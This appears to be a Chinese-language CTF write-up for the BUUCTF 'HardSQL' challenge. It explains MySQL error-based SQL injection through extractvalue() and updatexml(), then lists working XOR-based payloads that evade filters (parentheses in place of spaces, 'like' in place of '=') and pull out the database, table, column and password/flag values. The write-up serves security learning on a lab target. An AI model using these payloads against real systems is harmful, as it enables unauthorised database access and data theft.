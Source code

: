 ```yaml
---
title: [极客大挑战 2019]HardSQL
categories:
- wp
feature_text: |
  [极客大挑战 2019]HardSQL



---
```






<!-- more -->



# [极客大挑战 2019]HardSQL

题目给了一个登录页面，尝试万能密码

![Untitled](%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DHardSQL%203bb099c801c849c49a24981cd1e86602/Untitled.png)

没用。

尝试`union select`注入

`http://d9644305-bd59-4994-a951-5d90b9f85e05.node4.buuoj.cn:81/check.php?username=admin&password=1%20union%20select%201,2,3`

无事发生。

尝试用刚学的异或注入

`%23`:url编码，含义为`#`

**基于extractvalue()和updatexml()的报错注入**

- **extractvalue（）**
    - 功能：对[XML](https://blog.csdn.net/qsbbl/article/details/78628472?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522165192377416781818794567%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=165192377416781818794567&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-2-78628472-null-null.142^v9^control,157^v4^control&utm_term=XML&spm=1018.2226.3001.4187)文档进行查询的函数。
    - XML：简单来说是升级版HTML，可以兼容多种设备的标记语言。
    - 语法：`extractvalue(目标xml文档，xml路径)`
    - 第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。
    - 正常查询 第二个参数的位置格式 为 /xxx/xx/xx/xx ,即使查询不到也不会报错
    - 无语法错误:
      
        ```sql
        select username from security.user where id=1 and (extractvalue(‘anything’,concat(‘/’,(select database()))))
        ```
        
        此处使用concat拼接
        这里在’anything’中查询不到 位置是 /database()的内容，但也没有语法错误，不会报错
        
    - 故意写入语法错误：
      
        ```sql
        select username from security.user where id=1 and (extractvalue(‘anything’,concat(‘~’,(select database()))))
        ```
        
        可以看出，以~开头的内容不是xml格式的语法，报错，但是会显示无法识别的内容是什么，这样就达到了目的。
        
        有一点需要注意，extractvalue()能查询字符串的最大长度为32，就是说如果我们想要的结果超过32，就需要用substring()函数截取，一次查看32位
    
- **updatexml()**
    - 功能：updatexml()函数与extractvalue()类似，是更新xml文档的函数。
    - 语法：`updatexml(目标xml文档，xml路径，更新的内容)`
    - 例：`select username from security.user where id=1 and (updatexml(‘anything’,’/xx/xx’,’anything’))`
    - 报错方式相同
      
        ```sql
        select username from security.user where id=1 and (updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
        ```
        
        同样是32位查询。
        

使用报错查询：

- 查库名：
  
    `123'^extractvalue(1,concat(1,(select(database()))))%23` 
    
    ![Untitled](%5B%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019%5DHardSQL%203bb099c801c849c49a24981cd1e86602/Untitled%201.png)
    
    注：
    
    - select前的`()`不可省略,`()`用于`代替空格`
    - `%23`表示`#`
    - concat的第一个参数不能为字符（我也不知道为啥）
- 查表名
  
    `123'^extractvalue(1,concat(1,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23`
    
    注：
    
    - 此处用`like`代替`=`
- 查字段
  
    `123'^extractvalue(1,concat(1,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23`
    
- 查数据
  
    `username=admin&password=123456'^extractvalue(1,concat(1,(select(left(password,30))from(geek.H4rDsq1))))%23`
    
    `sername=admin&password=123456'^extractvalue(1,concat(0x5c,(select(right(password,30))from(geek.H4rDsq1))))%23`
    

合成得到flag。